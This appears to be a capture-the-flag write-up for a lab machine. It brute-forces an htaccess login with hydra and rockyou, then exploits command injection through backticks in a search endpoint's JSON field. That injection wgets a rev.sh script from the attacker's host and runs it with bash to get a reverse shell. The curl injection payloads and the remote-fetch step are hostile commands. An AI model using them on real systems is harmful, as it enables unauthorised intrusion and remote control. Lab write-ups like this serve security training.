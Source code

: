 

Hmm, the `htaccess` prompt on port `80` says :

```
You want in? Gotta guess the password!
```

I guess we gotta bruteforce our way in ?

We launch `hydra` with users

```
rascal
fox
admin
```

and `rockyou`. Gonna go grab supper let's see if we get a hit in the mean time.

We get a hit !

```
rascal:piglet1
```

We land on a "search" page. Looking at the network requests, we see that it is doing a `post` on `/assets/php/search.php`

The input is somewhat filtered via some javascript, let's call the endpoint via `curl` :

```
curl -H 'Authorization: Basic cmFzY2FsOnBpZ2xldDE=' http://10.10.162.55/assets/php/search.php -H "Content-Type: application/json" -d '{"target":"*"}'
```

This wildcard query give us :

```
["creds2.txt","fox.txt","important-data.txt"]
```

Playing around around with the `target` we see that `$` result in an `invalid character` response. Is this being filtered & executed in a shell ?

We get code execution via ` ``cmd`` ` (One backtick, problems with escaping backticks in typora...)

`&` also result in an invalid character 

The easiest way is just to create a `rev.sh` file on our machine and retrieve it using `wget`.

Since we can't use `&`, we'll need 2 requests to activate our shell :

```
curl -H 'Authorization: Basic cmFzY2FsOm1pa2UwNw==' http://10.10.39.231/assets/php/search.php -H "Content-Type: application/json" -d '{"target":"`wget http://10.6.32.20:8000/rev.sh -O /tmp/rev.sh`"}'
```

```
curl -H 'Authorization: Basic cmFzY2FsOm1pa2UwNw==' http://10.10.39.231/assets/php/search.php -H "Content-Type: application/json" -d '{"target":"`/bin/bash /tmp/rev.sh`"}'
```

And we are in as `www-data`
